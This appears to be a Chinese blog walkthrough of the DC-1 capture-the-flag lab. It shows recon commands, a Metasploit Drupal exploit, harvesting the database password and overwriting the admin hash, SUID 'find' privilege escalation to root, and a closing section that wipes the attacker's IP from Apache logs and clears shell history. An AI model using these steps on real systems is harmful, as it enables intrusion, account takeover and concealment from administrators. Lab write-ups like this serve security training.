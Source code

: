 ```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2025-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

## 信息搜集

### 主机发现

```shell
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 渗透
```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```
#### 获取flag1
![Pasted%20image%2020250707150809.png](https://img.ghostliner.top/arJvR1.png)

提示查找配置文件
#### 获取flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png](https://img.ghostliner.top/MCGvyt.png)

![Pasted%20image%2020250707151035.png](https://img.ghostliner.top/LVs8FM.png)

#### 获取flag3

获取到数据库信息
```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin登录，搜索页面发现flag3
![Pasted%20image%2020250707155935.png](https://img.ghostliner.top/btkBWY.png)
#### 获取flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```

![Pasted%20image%2020250707151856.png](https://img.ghostliner.top/Tw3JiS.png)

![Pasted%20image%2020250707151953.png](https://img.ghostliner.top/Gq0tZA.png)
#### 获取flag5

按提示提权

```shell
find / -perm -4000 -type f 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取flag5

![Pasted%20image%2020250707161219.png](https://img.ghostliner.top/weYUZl.png)
## 痕迹清除

### 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```
### 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### history

```shell
history -c
```
